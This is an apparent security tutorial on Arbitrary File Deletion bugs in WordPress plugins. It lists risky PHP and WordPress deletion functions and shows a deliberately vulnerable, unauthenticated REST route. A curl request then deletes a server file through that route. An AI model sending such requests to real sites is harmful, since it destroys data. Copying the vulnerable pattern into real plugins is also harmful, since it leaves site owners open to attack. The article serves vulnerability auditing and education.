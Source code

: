 ```yaml
---
title: Arbitrary File Deletion
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Arbitrary File Deletion on WordPress. This includes improper file or directory deletion handling inside of the plugin/theme which can be used to delete arbitrary local files and directories inside of the server.

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Deletion vulnerability:

- PHP related
    - [`unlink`](https://www.php.net/manual/en/function.unlink.php)
    - [`rmdir`](https://www.php.net/manual/en/function.rmdir.php)

- WordPress related
    - [`wp_delete_file](https://developer.wordpress.org/reference/functions/wp_delete_file/)
    - [`wp_delete_file_from_directory`](https://developer.wordpress.org/reference/functions/wp_delete_file_from_directory/)
    - [`WP_Filesystem_Direct::delete`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/delete/)
    - [`WP_Filesystem_Direct::rmdir`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/rmdir/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("init", "rest_init_setup");

function rest_init_setup(){
    register_rest_route( "myplugin/v1", '/deletemedia/', array(
        'methods'                   =>  "POST",
        'callback'                  =>  'delete_media_upload',
        'permission_callback' => '__return_true',
    ) );
}

function delete_media_upload($request){
    $args = json_decode($request->get_body(),true);
    $data = array('status'=>false);
    if(!empty($args['media']) ){
        wp_delete_file( $args['media']['file'] );
        $data = array('status'=>true);
    }
    return new WP_REST_Response( $data, 200 );
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/deletemedia` endpoint specifying the needed parameter to trigger the `wp_delete_file` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/deletemedia -d '{"media":{"file":"<WORDPRESS_BASE_DIRECTORY>/license.txt"}}' -H 'Content-Type: application/json'
```
